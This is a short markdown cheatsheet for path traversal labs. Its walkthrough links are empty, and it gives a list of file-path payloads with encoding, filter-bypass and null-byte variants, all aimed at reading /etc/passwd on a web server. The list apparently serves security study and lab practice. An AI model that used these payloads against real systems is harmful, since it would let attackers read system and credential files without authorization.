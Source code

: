 # Path Traversal - CHEATSHEET + LABS

## Walkthrough - Most important labs

- [1]()

- [2]()

## CHEATSHEET

```bash
#null byte = \0 -> %00
../../../../../etc/passwd
....//....//....//etc/passwd
..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd 
/var/www/../../../etc/passwd
../../../../../etc/passwd%00.jpg # bypass extension  via byte null

